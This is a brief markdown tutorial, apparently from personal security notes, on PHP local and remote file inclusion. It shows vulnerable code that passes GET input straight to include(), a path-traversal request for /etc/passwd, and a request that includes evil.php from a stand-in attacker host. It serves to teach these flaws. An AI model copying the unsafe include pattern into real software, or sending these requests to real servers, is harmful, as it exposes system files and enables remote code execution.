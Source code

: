 ### File Inclusion

there is 2 types

#### Local file inclusion (LFI)

is this case we can exposing or running files on the web server 

code ex :

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

```http
http://example.com/?file=../../etc/passwd
```

---

#### Remote file inclusion (RFI)

is this case we can  dynamically include external files or scripts.

```php
/**
* Get the filename from a GET input
* Example - http://example.com/?file=index.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - index.php
*/
include($file);
```

Using the above PHP script, an attacker could make the following HTTP request to trick the application into executing server-side malicious code, for example, a backdoor or a [webshell](https://www.acunetix.com/websitesecurity/introduction-web-shells/).

```http
http://example.com/?file=http://attacker.example.com/evil.php
```

